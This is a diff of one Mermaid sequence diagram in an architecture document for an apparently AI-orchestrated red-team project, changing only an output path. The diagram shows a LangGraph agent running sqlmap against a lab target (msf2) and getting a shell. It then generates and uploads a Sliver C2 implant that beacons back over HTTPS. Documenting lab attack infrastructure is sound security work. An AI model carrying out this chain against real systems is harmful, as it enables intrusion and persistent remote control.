

Before and after one commit to musicsms/decepticon: the seventh of 12 diagrams in docs/architecture/red-team-infrastructure.md, drawn with Mermaid. The commit also changed other lines of this file and 57 other files, not shown here.

````diff
--- a/docs/architecture/red-team-infrastructure.md
+++ b/docs/architecture/red-team-infrastructure.md
@@ -331,22 +331,22 @@
 ```mermaid
 sequenceDiagram
     participant LG as LangGraph
     participant K as Kali Sandbox
     participant C2 as C2 Server (Sliver)
     participant T as msf2 (Target)
 
     Note over K: Phase 3a: 취약점 공격 (직접 실행)
     LG->>K: docker exec: bash("sqlmap -u 'http://msf2/...'")
     K->>T: SQL Injection
     T-->>K: shell 획득
 
     Note over K,C2: Phase 3b: 비콘 배포 (C2 전환점)
     LG->>K: docker exec: bash("sliver-client generate --mtls c2-sliver")
     K->>C2: implant 생성 요청 (gRPC)
     C2-->>K: implant 바이너리
     LG->>K: docker exec: bash("획득한 셸로 implant 업로드")
     K->>T: implant 전송 + 실행
     T->>C2: beacon callback (HTTPS :443)
 
-    Note over LG: 결과 → /workspace/<slug>/exploit/shells.json
+    Note over LG: 결과 → /workspace/exploit/shells.json
 ```
````
